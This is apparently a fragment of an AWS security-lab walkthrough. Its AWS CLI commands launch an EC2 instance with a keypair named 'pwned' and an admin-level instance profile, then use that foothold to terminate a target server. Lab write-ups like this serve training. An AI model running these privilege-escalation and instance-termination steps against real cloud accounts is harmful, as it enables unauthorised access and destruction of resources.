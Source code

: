 ```bash

# creates a new EC2 instance with that keypair
aws ec2 describe-subnets \
    --profile Kerrigan

aws ec2 describe-security-groups \
    --profile Kerrigan

aws ec2 run-instances \
    --image-id ami-0a313d6098716f372 \
    --iam-instance-profile Arn=<instanceProfileArn> \
    --key-name pwned \
    --profile kerrigan \
    --subnet-id <subnetId> \
    --security-group-ids <securityGroupId>


# now have shell access to it.
sudo apt-get update
sudo apt-get install awscli

aws ec2 describe-instances \
    --region us-east-1



# attaches the full-admin-empowered instance profile to the EC2 instance.


# By accessing and using the new EC2 instance as a staging platform
# execute AWS CLI commands with full admin privileges granted by the attached profile's role.


# terminate the "cg-super-critical-security-server" EC2 instance, completing the scenario.

aws ec2 terminate-instances \
    --instance-ids <instanceId> \
    --region us-east-1

```









---


### Scenarios 5: ec2_ssrf (Medium / Moderate)

